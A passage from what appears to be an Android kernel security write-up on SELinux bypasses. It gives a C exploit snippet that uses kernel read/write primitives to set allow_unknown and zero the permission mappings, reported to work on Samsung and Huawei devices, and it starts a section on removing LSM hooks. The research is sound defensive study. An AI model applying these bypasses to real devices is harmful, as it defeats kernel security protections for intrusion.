 > On older versions (4.19), `policydb` and `map` were both embedded in a global variable `selinux_ss`. On even older versions (4.14), `policydb` was a global variable, and `map` corresponded to global variables `current_mapping` and `current_mapping_size`.
{: .prompt-info }

Therefore, the bypass for 4.14 would look something like this:
```c
// Set policydb.allow_unknown to true
kwrite8(policydb_addr + OFFSET_ALLOW_UNKNOWN, 2);

// Overwrite mapping so everything is unknown
uint64_t current_mapping_size = kread16(current_mapping_size_addr);
uint64_t current_mapping = kread64(current_mapping_addr);
uint8_t zeroes[FIELD_SIZEOF(struct selinux_mapping, perms)] = {};
for (size_t tclass = 0; tclass < current_mapping_size; tclass++) {
	uint64_t mapping = current_mapping + tclass*sizeof(struct selinux_mapping);
	kwrite(mapping + offsetof(struct selinux_mapping, perms),
	       zeroes, sizeof(zeroes));
}
```
{: file="exploit.c" }

The mapping is only modified when loading a new policy, so if we don't reload the policy, we only need to do this once. But note that like the previous bypass, this targets `security_compute_av()`, and thus additionally it may be needed to [overwrite the AVC cache](#bypass-3-overwrite-avc-cache) to remove cached denied permission requests.

This bypass was presented at [Game of Cross Cache: Let's Win It in a More Effective Way!
](https://www.blackhat.com/asia-24/briefings/schedule/#game-of-cross-cache-lets-win-it-in-a-more-effective-way-37742)(slide 88) at Blackhat Asia 2024.

> This works on both my Samsung and my Huawei device. The memory of the mapping was not protected on either device.
{: .prompt-tip }

### Bypass 6: Remove hooks
In [this post](https://www.iceswordlab.com/2018/04/20/samsung-root/#0x4-KNOX2-8-amp-amp-SELinux-%E5%9B%9E%E9%A1%B5%E9%A6%96), they bypass both SELinux and Samsung RKP (the Samsung hypervisor) by removing the security hooks. As explained [previously](#linux-security-module), SELinux hooks are added to the global `security_hook_heads`. This structure is defined as follows:
```c
struct security_hook_heads {
	#define LSM_HOOK(RET, DEFAULT, NAME, ...) struct hlist_head NAME;
	#include "lsm_hook_defs.h"
	#undef LSM_HOOK
} __randomize_layout;
```
{: file="include/linux/lsm_hooks.h" }

```
LSM_HOOK(int, 0, file_alloc_security, struct file *file)
LSM_HOOK(int, 0, file_open, struct file *file)
[...]
```
{: file="include/linux/lsm_hook_defs.h" }
